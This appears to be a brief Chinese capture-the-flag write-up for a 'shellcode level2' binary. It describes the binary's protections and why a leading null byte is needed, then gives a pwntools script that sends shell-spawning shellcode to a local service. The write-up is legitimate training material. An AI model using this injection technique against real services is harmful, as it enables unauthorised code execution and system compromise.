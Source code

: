 # shellcode level2

## 文件分析

下载`shellcode_level2`, NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 逆向

该程序用gets读入100字节，shellcode随便打  
程序运行一个变量+1对应的地址，且该变量首字节不为0则全部置0  
即先放一个`\0`再放shellcode即可

## EXPLOIT

```python
from pwn import *
shc = asm(shellcraft.amd64.linux.sh(), arch='amd64')
sh = remote("localhost", 45341)
sh.sendline(b'\0' + shc)
sh.interactive()
```

Done.
